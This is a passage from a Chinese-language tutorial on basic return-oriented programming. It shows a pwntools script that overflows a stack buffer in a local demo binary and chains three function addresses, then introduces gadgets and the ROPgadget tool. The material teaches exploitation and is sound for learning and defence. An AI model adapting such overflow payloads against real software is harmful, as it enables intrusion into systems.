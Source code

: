 ```c
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

func1_address = elf.sym["func1"]
func2_address = elf.sym["func2"]
func3_address = elf.sym["func3"]

payload = b"A" * 0x28
payload += p64(func1_address)
payload += p64(func2_address)
payload += p64(func3_address)

p.send(payload)

p.interactive()
```

单看这个脚本可能会有点抽象，下面是栈帧变化的动画演示：

![img](../.gitbook/assets/basic\_rop.gif)

#### gadget

现在我们已经能够实现通过在合适的位置布置地址实现按照一定的顺序调用函数。但是这还不够精细，毕竟我们现在还很难控制调用这些函数时传递的参数（可以先了解一下Linux下C语言的调用约定）。这里就需要引入一个新的概念——gadget。

gadget在这里指的是以`ret`指令结尾的代码片段，例如`leave; ret`就是一个很常用的gadget。我们可以利用各种合适的gadget拼凑出需要的程序逻辑。

**获取gadget**

获取gadget可以使用工具`ROPgadget`获取到elf文件中的大部分gadget。如下图
